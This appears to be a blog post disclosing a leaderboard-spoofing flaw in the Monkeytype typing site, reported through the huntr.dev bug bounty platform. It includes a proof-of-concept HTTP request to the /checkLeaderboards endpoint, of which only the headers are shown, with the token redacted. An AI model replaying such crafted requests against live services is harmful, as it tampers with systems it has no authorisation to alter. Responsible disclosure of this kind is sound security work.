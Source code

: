 ![](/assets/img/posts/2021-09-01-MONKEYTYPE/inject_scores.png)    
*Shown above, the leaderboard is spoofed using a crafted request seen here being sent in BurpSuite*  

**Vulnerability**:  Users can bypass leaderboard controls and inject any object they want into the leaderboard by spoofing post requests to /checkLeaderboards. Malicious users can send specially crafted post requests and inject any user they want to the top of the leaderboard with any value words per minuet they want. Server does invalidate requests with cross-site scripting (XSS) payloads, therefore I believe this is not vulnerable to XSS.  

**Disclosure Method**: For the first time, I submitted this vulnerability through [huntr.dev](https://huntr.dev/bounties/1-other-Miodec/monkeytype/), a bug bounty platform that rewards developers and bug hunters for traiged vulnerabilities in open-source software.   

**Proof of Concept**:  The following request will overwrite the leaderboard, injecting the user pwnville_foo into position 9 with a faked wpm of 200.  

```yaml
POST /checkLeaderboards HTTP/2
Host: us-central1-monkey-type.cloudfunctions.net
Content-Length: 750
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Authorization: Bearer [redacted]
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://monkeytype.com
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://monkeytype.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```